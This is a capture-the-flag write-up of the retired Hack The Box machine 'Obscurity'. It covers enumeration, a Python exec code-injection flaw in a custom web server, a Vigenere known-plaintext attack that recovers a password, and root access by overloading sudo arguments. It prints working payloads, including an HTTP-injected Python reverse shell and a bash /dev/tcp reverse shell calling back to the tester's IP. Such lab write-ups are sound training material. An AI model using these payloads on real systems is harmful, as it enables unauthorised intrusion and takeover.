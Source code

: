 # Obscurity

This is the write-up for the box Obscurity that got retired at the 9th May 2020.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.168    obscurity.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/obscurity.nmap 10.10.10.168
```

```
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Sun, 04 Apr 2021 09:56:20
|     Server: BadHTTPServer
|     Last-Modified: Sun, 04 Apr 2021 09:56:20
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
(...)
9000/tcp closed cslistener
```

As port 80 and 9000 responded that the ports are _closed_, it could mean that there is a firewall in place.

## Checking HTTP (Port 8080)

The web page on port 8080 is a custom-developed company website for _"0bscura"_.
On there are some descriptions that could hint to what to look out for:
```markdown
**0bscura**

Here at 0bscura, we take a unique approach to security: you can't be hacked if attackers don't know what software you're using!

That's why our motto is 'security through obscurity'; we write all our own software from scratch, even the webserver this is running on!
This means that no exploits can possibly exist for it, which means it's totally secure!

**Our Software**

Our suite of custom software currently includes:
- A custom written web server
- Currently resolving minor stability issues; server will restart if it hangs for 30 seconds
- An unbreakable encryption algorithm
- A more secure replacement to SSH

**Development**

Server Dev
Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory
```

There is an email address _secure[@]obscure.htb_ that could be a potential username.
The Server response header _"BadHTTPServer"_ is custom-developed and the file _SuperSecureServer.py_ seems to hint that it is developed in Python.

Lets search for the directory where the Python source code is in:
```
wfuzz -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
```

The directory _/develop_ responds back successfully and in there is _SuperSecureServer.py_:
```
http://10.10.10.168:8080/develop/SuperSecureServer.py
```

### Exploiting the Python code

Observations from the Python code:
- It runs an `exec` function:
  - `exec(info.format(path))`
- _main function_ is missing, which means there has to be another file

As it uses `exec` and inputs a path, there could be a **Directory Traversal vulnerability** on the web page.
Python web server have their code often one directory above the current one and by enumerating it for default filenames, the code _main.py_ can be found:
```
GET /../main.py HTTP/1.1
Host: 10.10.10.168:8080
(...)
```

After running and debugging the code locally, it seems to be possible to rewrite the _path_ of the `exec` function and use it for code execution and append code with a semicolon.
Code execution proofed by sending ICMP packets to my local client successfully:
```
GET /';os.system("ping%20-c%201%2010.10.14.6");' HTTP/1.1
Host: 10.10.10.168:8080
```

Now that command execution works, we can use it to spawn a reverse shell:
```
GET /';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' HTTP/1.1
Host: 10.10.10.168:8080
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _www-data_.

## Privilege Escalation

There is a home directory _/home/robert_ with some interesting files:

- _BetterSSH/BetterSSH.py_
  - This is the custom developed SSH server that was mentioned on the website

- _check.txt_
  ```
  Encrypting this file with your key should result in out.txt, make sure your key is correct!
  ```

- _out.txt_
  - Non-readable string

- _passwordreminder.txt_
  - Non-readable string

- _SuperSecureCrypt.py_
  - This is the encryption algorithm that was mentioned on the website

After analyzing the code of the encryption algorithm in _SuperSecureCrypt.py_, it looks like a **Vigenere Cipher** which can be deciphered with a **Known-Plaintext attack**.

- _check.txt_ = plaintext file
- _out.txt_   = ciphertext file

The script has a _decrypt_ function that can be used with the `-d` parameter:
```
python3 SuperSecureCrypt.py -d -i out.txt -k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' -o key.txt
```

This generates the file _key.txt_ with a repeating pattern:
```
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So the key is _alexandrovich_ and is needed to decrypt the _passwordreminder.txt_ file:
```
python3 SuperSecureCrypt.py -d -i passwordreminder.txt -k 'alexandrovich' -o decrypted.txt
```

This generates the file _decrypted.txt_ that contains the password:
> SecThruObsFTW

The password belongs to _robert_ and can be used to SSH into the box:
```
ssh robert@10.10.10.168
```

### Privilege Escalation to root

The user _robert_ is able to run the _BetterSSH.py_ with sudo permissions:
```
sudo -l

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Analyzing the Python code _BetterSSH.py_ in the home directory of _robert_:
- Opens _/etc/shadow_ and check for the username that is used
- Puts the password hash of the user into a random file in _/tmp/SSH_
- Compares the random file in _/tmp/SSH_ with the hash and authenticates if true
- If authentication is successful, it will run `sudo -u` with the current user on every command

Creating the SSH in directory in _/tmp_ as it does not exist:
```
mkdir /tmp/SSH
```

Running _BetterSSH.py_ with `sudo`:
```
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!
```

It authenticates and when running no command, it shows that `sudo` can not find the command as it always appends `sudo -u robert` in front of a command:
```
robert@Obscure$
Output:
Error: sudo: : command not found
```

By overloading the parameters of `sudo`, it is possible to execute commands as root:
```
robert@Obscure$ -u root whoami
Output: root
```

This now runs `sudo -u robert -u root whoami` which takes the second `-u` argument and thus runs commands as root.
Lets create a reverse shell script in _/tmp/shell.sh_ on the box and execute it with root:
```
bash -i >& /dev/tcp/10.10.14.6/9002 0>&1
```
```
chmod +x shell.sh
```

Executing the shell script from the _BetterSSH_ with root:
```
robert@Obscure$ -u root /tmp/shell.sh
```

After executing the script, the listener on my IP and port 9002 starts a reverse shell connection as root!
